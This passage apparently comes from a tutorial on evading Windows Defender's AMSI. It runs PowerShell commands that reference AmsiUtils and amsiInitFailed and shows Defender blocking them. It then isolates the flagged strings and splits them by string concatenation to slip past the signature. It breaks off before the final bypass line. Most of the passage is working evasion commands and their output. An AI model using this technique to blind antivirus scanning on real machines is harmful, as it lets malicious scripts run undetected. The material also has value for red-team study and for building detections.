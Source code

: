 Let’s execute the first code snippet and see what PowerShell returns.

```
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
At line:1 char:1
+ [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Nothing surprising there… we can break this snippet up further by breaking up the .NET assembly and seeing which part results in an alert.

```
PS M:\\> [Ref].Assembly.GetType('System')
PS M:\\> [Ref].Assembly.GetType('System.Management')
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation')
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
At line:1 char:1
+ [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

We now know that `AmsiUtils` is contributing directly to the alert. Next, we can target it with concatenation to break it up and attempt to make this section clean.

```
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils')

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
False    False    AmsiUtils                                System.Object
```

Success! Now we can append our next snippet to this clean version of the first snippet and execute it.

```
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils').GetField('amsiInitFailed','NonPublic,Static')
At line:1 char:1
+ [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils' ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Now this snippet may be harder to track down…. With some prior knowledge of PowerShell we can assume that `NonPublic` and `Static` are both pretty standard and would not contribute to the signature. We can assume `amsiInitFailed` is what Defender is alerting on and attempt to split it.
